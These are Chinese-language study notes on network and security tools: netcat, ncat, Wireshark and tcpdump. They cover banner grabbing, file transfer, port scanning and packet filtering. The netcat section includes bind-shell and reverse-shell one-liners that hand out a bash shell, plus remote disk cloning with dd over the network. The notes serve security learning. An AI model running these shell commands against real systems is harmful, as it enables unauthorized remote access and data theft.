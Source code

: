 # 基本工具

### 1.netcat(nc) 
      
-v 显示详细输出内容  
-n 跟IP地址，不进行DNS解析  
-l 打开一个listen端口   
-p 端口号   
-q n 当标准输出完成后延迟n秒断开   
-z 扫描模式，不做I/O操作   
    
#### (1)telnet/banner   
	nc -vn ip地址 端口号   
	pop3(110)   
	smtp(25)   
	http(80)   
   
#### (2)传输文本信息   
	sudo nc -l -p 333 (sudo netstat -pantu | grep 333)   
	可用于电子取证,直接传送，不在当前设备保存   
	如： 连接端：ls -l | nc -nv 10.1.1.12 333   
		 打开端：nc -l -p 333 > content.txt   
		    
#### (3)传输文件/目录   
**文件：**   
	A: nc -lp 333 > 1/mp4   
	B: nc -nv 1.1.1.1 333 < 1.mp4 -q 1   
	或   
	A: nc -q 1 -lp 333 < a.mp4   
	B: nc -nv 1.1.1.1 333 > 2.mp4   
**目录：**   
	A: tar -cvf - music/ | nc -lp 333 -q 1   
	B: nc -nv 1.1.1.1 333 | tar -xvf -   
**加密传文件：**   
	A: nc -lp 333 | mcrypt --flush -Fbqd -a rijindael-256 -m ecb > 1.mp4   
	B: mcrypt --flush -Fbq -a rijindael-256 -m ecb < a.mp4 | nc -nv 1.1.1.1 333 -q 1   
   
#### (4)流媒体服务器   
	A: cat 1.mp4 | nc -lp 333   
	B: nc -vn 1.1.1.1 333 | mpalyer -vo x11 -cache 3000 -   
   
#### (5)端口扫描(扫描器的结果都不一定是正确的)   
	nc -nvz 1.1.1.1 1-65535   
	默认探测tcp端口，加上u选项探测udp端口   
	nc -vnzu 1.1.1.1 1-1024   

#### (6)远程克隆硬盘   
	A: nc -lp 333 | dd of=/dev/sda   
	B: dd if=/dev/sda | nc -nv 1.1.1.1 333 -q 1   
	远程电子取证，可以将目标服务器硬盘远程复制，或者内存   
	不仅是文件，每个磁道，包括已标记删除的信息,完整的硬盘复制   

#### (7)远程控制   
* 正向：   
	A: nc -lp 333 -c bash   
	B: nc 1.1.1.1 333   
* 反向：   
	A: nc -lp 333   
	B: nc 1.1.1.1 333 -c bash   
注： Windows用户把bash改成cmd   

### 2.ncat   
nc的缺点：   
	nc缺乏加密和身份验证的能力   
ncat包含于nmap工具包中   
--allow 允许连接的IP地址   
	A: ncat -c bash --allow 192.168.20.14 -vnl 333 --ssl(用ssl加密)   
	B: ncat -nv 1.1.1.1 333 --ssl   
注：不同系统/平台的nc参数功能不尽相同   

### 3.wireshark   
manjaro安装GUI版本：   
	yaourt -S wireshark-qt   
需用sudo wireshark图形化版本以顺利使用全部功能   
抓包嗅探协议分析   
安全专家必备的技能   
抓包引擎   
* Libpcap9——Linux   
* Winpcap10——Windows   
解码能力(衡量抓包工具优劣的重要指标)   
若不勾选使用混杂模式，不会抓取发送给本地IP地址之外的包   
   
#### 筛选器：    
	过滤掉干扰的数据包   
	抓包过滤器：抓包时过滤   
	显示过滤器：显示时过滤，往往用的更多   
	Network -> Capture Filters -> Capture Engine -> Display Filter   

实时抓包，停止后可以保存，建议使用pcap格式(兼容性较高)   
Edit -> Preferences调整界面布局等首选项内容   

TTL(Time to live)   
#### 常见协议包：   
	数据包的分层结构(统计信息、二层报头、三层报头、四层报头...)   
	ARP,ICMP,TCP,UDP,DNS,HTTP,FTP...   
	IP是三层报头   
	四层协议不仅是TCP(Protocol:6)和UDP(17)两种协议,0-255,ICMP(1),IGMP(2)...   
	二层报头先是源地址再是目的地址，三层报头先是目的地址再是源地址   
	TCP的三次握手: [SYN], [SYN, ACK], [ACK]   
	TCP开销相对于UDP较大   
	DNS是基于四层UDP协议之上的应用层协议,域名解析   
	HTTP是基于TCP协议的应用层协议   
		HTTP/1.1\r\n结尾   
	FTP也是基于TCP协议的应用层协议   
	wireshark默认通过端口来识别协议，如HTTP通常在80，若在8080则不会按HTTP解析，可以右键选择decode as来手动选择协议   
   
#### 数据流：   
	HTTP、SMTP、POP3、SSL   
	更清晰地看到访问过程   
	右键包 follow xxx stream   
	HTTP,SMTP,POP3基本上是完全明文传输的，提倡用SSL(Secure Sockets Layer)等加密   
	SSL加密通信过程中，最初的几个包进行SSL公钥传输及加密秘钥的交换，信息会以明文形式传输，但这些信息无法用于解密   

#### 信息统计：   
	wireshark官网下有各类协议的学习文件   
	大多statistics菜单下   
	Summary 抓包文件的摘要信息   
	Endpoints 了解当前这些包中一共有几个IP地址   
	Protocol Hierarchy 可查看当前抓的数据包都是什么协议类型   
		DNS占比过大时往往不正常   
	Conversation 查看两台机期间产生的会话及产生的数据量(查看中僵尸程序的服务器)   
	Expert Info 专家系统信息提示   
   
wireshark抓大流量时略有欠缺,但应用很广，有很多基于wireshark开发的抓包软件   
#### 企业抓包部署方案：   
	Sniffer   
	Cace/riverbed   
	Cascad pilot   
	全流量抓包，需要一个镜像端口   
   
### 4.tcpdump   
no-GUI的抓包分析工具   
Linux、Unix系统默认安装(说是这么说但是manjaro下没有，pacman安装一下即可)   
   
#### 抓包：   
    默认只抓68个字节   
    -i interface   
    -s snaplen 大小   
    -w file   
    tcpdump -i eth0 -s 0 -w file.pcap   
    tcpdump -i eth0 port 22 (筛选器)   
   
#### 读取抓包文件：   
    tcpdump [-A] -r file.pcap   
    -A 以ascii码显示   
    -X 以十六进制显示   
   
#### 筛选：   
    -n 不解析域名，显示IP地址   
    用管道:   
        tcpdump -n -r http.cap | awk'{print $3}' | sort -u   
    按来源IP:   
        tcpdump -n src host 145.254.160.237 -r http.cap   
    按目标IP:   
        tcpdump -n dst host 145.254.160.237 -r http.cap   
    按端口号:   
        tcpdump -n port 53 -r http.cap   
        tcpdump -nX port 80 -r http.cap   
    高级筛选:   
        按位01转化成十进制数,规定第x个字节的值   
        tcpdump -A -n 'tcp[13] = 24' -r http.cap   
